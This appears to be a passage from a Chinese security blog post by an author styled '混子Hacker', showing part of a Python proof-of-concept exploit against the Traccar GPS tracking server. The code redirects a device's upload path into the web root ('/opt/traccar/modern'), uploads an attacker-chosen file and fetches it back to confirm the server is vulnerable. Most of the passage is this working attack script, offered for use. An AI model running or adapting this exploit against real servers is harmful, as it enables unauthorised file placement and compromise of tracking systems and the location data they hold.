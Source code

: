 ```

    # Change Upload Path
    upload_path = "/opt/traccar/modern"
    res = change_upload_path(target, device_id, device_name, upload_path)
    if upload_path not in res.text:
        print("Change Upload Path Error!!")
        sys.exit(0)
    print("Change Upload Path Success!!")

    # Upload File Again
    res = upload_file(target, device_id, suffix, data)
    if 'device.' + suffix not in res.text:
        print("Upload Error!!")
        sys.exit(0)
    
    print("Upload Success!!")
    # Check upload
    # if set upload_path = "/opt/traccar/modern"
    check_url = f"{target}/device.{suffix}"
    print(f"Check: {check_url}")
    res = session.get(check_url)
    if data in res.text:
        print("Is a Vulnerability!")
    else:
        print('Not is a Vulnerability!')
```  
  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  

